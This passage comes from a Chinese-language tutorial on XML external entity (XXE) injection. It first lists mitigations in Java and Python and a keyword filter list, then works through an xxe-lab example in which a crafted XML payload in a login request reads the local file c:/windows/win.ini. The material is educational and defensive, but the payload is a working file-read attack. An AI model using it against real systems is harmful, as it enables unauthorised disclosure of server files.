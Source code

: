    JAVA：

   ```
   DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
   dbf.setExpandEntityReferences(false);
   ```

   python：

   ```
   from lxml import etree
   xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
   ```

2. 过滤用户提交的 XML 数据

   过滤关键词：`<!DOCTYPE`、`<!ENTITY`、SYSTEM、PUBLIC

## 实例

**xxe-lab**

![image-20220811163807711](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811163807711.png)

登陆界面，输入用户名密码，抓包

![image-20220811163854896](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811163854896.png)

发现输入的数据使用post请求发送，且格式类似XML。

构造payload，执行文件读取：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///c:/windows/win.ini">
]>
<user>
<username>&test;</username>   <!-- 实体引用 -->
<password>Mikasa</password>
</user>
```

![image-20220811164116973](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811164116973.png)

成功获取到Windows配置信息。